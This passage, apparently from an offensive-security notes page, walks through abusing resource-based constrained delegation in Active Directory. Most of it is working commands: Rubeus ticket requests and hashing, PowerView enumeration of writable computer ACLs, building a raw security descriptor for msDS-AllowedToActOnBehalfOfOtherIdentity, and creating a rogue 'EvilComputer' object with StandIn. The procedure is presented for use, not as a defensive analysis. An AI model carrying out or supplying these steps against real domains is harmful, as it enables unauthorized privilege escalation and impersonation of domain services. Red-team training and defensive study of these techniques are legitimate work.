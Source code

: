 {% code overflow="wrap" %}
```
Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:corp /username:administrator /password:FakePass /ticket:
```
{% endcode %}

#### Configure Ourselves

Sometimes, we don't have the required attribute enabled, but we can configure it. First we have to determine if our current machine has the required privileges and create a new security descriptor:

{% code overflow="wrap" %}
```powershell
Get-DomainComputer | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ActiveDirectoryRights -match "WriteProperty|GenericWrite|GenericAll|WriteDacl" -and $_.SecurityIdentifier -match "S-1-5-21-569305411-121244042-2357301523-[\d]{4,10}" }

# Suppose we have access to the correct user / machine and we have the required privileges over the DB machine:
Get-DomainComputer -Identity WEB -Properties objectSid

# Create Security Descriptor for the msDS-AllowedToActOnBehalfOfOtherIdentity in raw binary format
$rsd = New-Object Security.AccessControl.RawSecurityDescriptor "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-569305411-121244042-2357301523-1109)"
$rsdb = New-Object byte[] ($rsd.BinaryLength)
$rsd.GetBinaryForm($rsdb, 0)

# then grab the current machine's TGT and run the commands for Rubeus to perform s4u to grab the ST of the cifs service on DB.
```
{% endcode %}

#### Create Object

If we do not have administrative access over our current machine for whatever reason, **we can create our own computer object**. By default, even domain users can join up to 10 computers to a domain via the `msds-MachineAccountQuota` attribute.&#x20;

This method of abuse can be done via LDAP, Powershell or `StandIn.exe`:

{% code overflow="wrap" %}
```powershell
# create new object with random password given
StandIn.exe --computer EvilComputer --make

# calculate RC4 Hash
Rubeus.exe hash /password:oIrpupAtF1YCXaw /user:EvilComputer$ /domain:corp

# grab TGT of our new device
Rubeus.exe asktgt /user:EvilComputer$ /rc4 OR aes256: /nowrap

# now that we have a TGT our new machine, we can configure the SDDL required and grab the ST of the service we want!
```
{% endcode %}

